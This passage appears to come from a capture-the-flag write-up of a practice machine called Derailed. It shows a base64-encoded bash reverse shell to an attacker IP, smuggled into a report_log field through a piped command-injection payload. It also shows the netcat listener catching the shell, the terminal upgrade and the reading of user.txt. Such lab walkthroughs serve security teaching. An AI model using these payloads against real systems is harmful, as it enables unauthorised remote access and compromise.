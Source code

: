     oxdf@hacky$ echo "bash -c 'bash -i  >& /dev/tcp/10.10.14.6/443 0>&1'" | base64
    YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMScK



With a little trial and error I found an extra space between `-i` and
`>&` resulted in no special characters. I'll update the XSS payload one
more time, this time with
`report_log=|echo 'YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMScK' | base64 -d | bash`.
I'll trigger the XSS again, and when it runs, a shell arrives at port
443:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.190 41982
    bash: cannot set terminal process group (806): Inappropriate ioctl for device
    bash: no job control in this shell
    rails@derailed:/var/www/rails-app$



I'll upgrade using the [stty /
script](https://www.youtube.com/watch?v=DqE6DxqJg8Q) trick:



    rails@derailed:/var/www/rails-app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    rails@derailed:/var/www/rails-app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    rails@derailed:/var/www/rails-app$



I can also grab `user.txt` now:



    rails@derailed:~$ cat user.txt
    c4aaa505************************



### SSH

I'll notice that rails is in the ssh group:



    rails@derailed:~/.ssh$ id
    uid=1000(rails) gid=1000(rails) groups=1000(rails),100(users),113(ssh)


